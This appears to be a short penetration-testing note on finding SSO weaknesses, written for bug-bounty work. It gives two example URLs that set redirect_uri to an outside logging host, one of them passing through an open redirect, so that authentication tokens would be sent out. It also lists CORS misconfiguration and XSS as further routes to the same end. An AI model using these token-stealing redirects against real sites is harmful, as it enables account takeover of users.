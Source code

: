 # Basic
- User is logged-in at site _A_, he also wants to be logged-in at site _B_.
  - There should be a **Token** to transfer authenticaition between two different origin. (one-time-use, unique, not predictable)
  - Site _B_ should verify the token.
  - There should be a `redirect_uri` parameter to redirect the user from site _A_ to site _B_.
- SSO Implementations are _Redirect_, _CORS_, _JSONP_, _oAuth_, _SAML_ 

# Detection
- At first, determined the exact flow.
- Find a parameter (like `redirect_uri`) that redirect user to the _sso.target.tld_.
  ```bash
  https://sso.target.tld/auth/issue_token?redirect_uri=https://cvefix.ir/log
  ```
- `redirect_uri` is limited to _*.target.tld_  →  Search for an Open Redirect.
  ```bash
  https://sso.target.tld/auth/issue_token?redirect_uri=https://subdomain.target.tld/logout?r=https://cvefix.ir/log
  ```
- SSO works by XHR request  →  Search for CORS Misocnfiguration.
- SSO works by XHR request + CORS is configured safely _(*.target.tld)_  →  Search for an XSS.
